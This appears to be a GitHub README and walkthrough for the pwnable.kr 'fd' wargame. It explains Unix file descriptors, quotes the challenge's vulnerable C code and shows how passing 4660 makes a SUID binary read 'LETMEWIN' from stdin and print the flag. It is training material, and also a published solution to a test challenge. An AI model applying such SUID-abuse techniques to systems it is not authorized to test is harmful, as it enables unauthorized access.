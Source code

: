 # file-descriptor-stdin-attack
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket. File descriptors form part of the POSIX application programming interface. A file descriptor is a non-negative integer, generally represented in the C programming language as the type int (negative values being reserved to indicate "no value" or an error condition).  Each Unix process (except perhaps a daemon) should expect to have three standard POSIX file descriptors, corresponding to the three standard streams.

# Example of use this Script in wargame pwnable.kr (fd)
```
root@kali:~/Desktop/Scripts# python3 file-descriptor.py --hexvalue 0x1234 --vulnapp ./a.out
[+]Hexvalue: 0x1234
[+]Vulnapp: ./a.out
LETMEWIN
good job :)
you get it the flag
```

# Example in wargame pwnable.kr (fd)

ssh fd@pwnable.kr -p2222 (pw:guest)


We are into the server and we see 3 files: fd  fd.c  flag. It is very importat thing to know who am i, so I just enter id or whoami, and seeing the actual user. The file fd.c is readable by the user fd. -rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
And the binary has SUID bit and I can run it. -r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
Flag file we can't read the solution....So we could trick the fd application to read flag and view the content of the file.

Running the binary file to find out some issue or clue :S. When we open this file, I just discover than I will introduce some kind of argument like a number: 
fd@ubuntu:~$ ./fd
pass argv[1] a number

View of the vulnerable C code:
```c
fd@ubuntu:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){ // Do not accept less than 2 arguments (program name is one of them), print help and exit
        printf("pass argv[1] a number\n");
        return 0;
    } 

// atoi: convert a string array to integer
    int fd = atoi( argv[1] ) - 0x1234;
    int len = 0;

// Read from file descriptor int(argv[1] - 0x1234)
    len = read(fd, buf, 32);

// If strcmp("LETMEWIN\n", buf) returns 0 (matches), print flag
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;

}

```
The atoi function convert a string to integer value. It is interesting to know what is Linux File Descriptor. The 0 value is stdin, so I figure out how is the value in decimal to 0x1234 = 4660. If I pass as argument 4660, that is equal to read(0, buf, 32). Therefore we need to know that stdin must be enabled with 0 File Descriptor, and you can convert to zero through argument passed. So if I put 4660, fd == 0 and this let us to write (stdin) LETMEWIN\n and saved in buffer array.
```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

More information about Linux File Descriptors: https://en.wikipedia.org/wiki/File_descriptor
